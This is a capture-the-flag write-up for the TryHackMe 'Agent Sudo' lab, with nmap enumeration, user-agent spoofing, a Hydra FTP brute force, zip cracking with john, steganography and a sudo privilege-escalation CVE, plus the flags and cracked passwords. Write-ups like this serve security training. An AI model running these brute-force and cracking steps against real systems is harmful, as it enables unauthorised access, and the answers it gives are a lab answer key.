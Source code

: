 # Agent Sudo

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

[Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## 💢 We will cover  the topics

- Network Enumeration
- Web Header Manipulation
- Brute Forcing (FTP)
- Brute Forcing (Zip)
- Steganography
- Cryptography
  - Base64
- OSINT
- CVE-2019-14287 - Sudo < 1.8.28



---------------------------------

## Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine

`No answer needed`

## Enumerate

Enumerate the machine and get all the important information

1. How many open ports?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ sudo nmap -A -Pn -sC -sV -O 10.10.34.31
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:28 CEST
Nmap scan report for 10.10.34.31
Host is up (0.053s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=21%CT=1%CU=35221%PV=Y%DS=2%DC=T%G=Y%TM=5F79B1F
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%II=I%
OS:TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5
OS:=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=
OS:68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.49 ms 10.8.0.1
2   36.67 ms 10.10.34.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.71 seconds
```

`3`

2. How you redirect yourself to a secret page?

- [http://10.10.34.31/](http://10.10.34.31/)

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

`user-agent`

1. What is the agent name?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ curl -A "C" -L 10.10.34.31
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

`chris`

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.34.31 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 13:36:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.34.31:21/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344243 to do in 1532:31h, 16 active
[21][ftp] host: 10.10.34.31   login: chris   password: crystal
```

2. Zip file password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ binwalk -e cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ zip2john _cutie.png.extracted/8702.zip > zip.hash
ver 81.9 _cutie.png.extracted/8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
kali@kali:~/CTFs/tryhackme/Agent Sudo$ john zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:01 DONE 2/3 (2020-10-04 13:42) 0.6993g/s 37134p/s 37134c/s 37134C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

3. steg password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ echo -n 'QXJlYTUx' | base64 -d
Area51
```

4. Who is the other agent (in full name)?

`james`

5. SSH password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ cat message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

`hackerrules!`

## Capture the user flag

You know the drill.

1. What is the user flag?

```
james@agent-sudo:~$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

2. What is the incident of the photo called?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ scp james@10.10.34.31:Alien_autospy.jpg ./
james@10.10.34.31's password:
Alien_autospy.jpg                                            100%   41KB 358.6KB/s   00:00
kali@kali:~/CTFs/tryhackme/Agent Sudo$
```

`roswell alien autopsy`

## Privilege escalation

Enough with the extraordinary stuff? Time to get real.

1. CVE number for the escalation (Format: CVE-xxxx-xxxx)

`CVE-2019-14287`

2. What is the root flag?

```
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

`b53a02f55b57d4439e3341834d70c062`

3. (Bonus) Who is Agent R?

`DesKel`

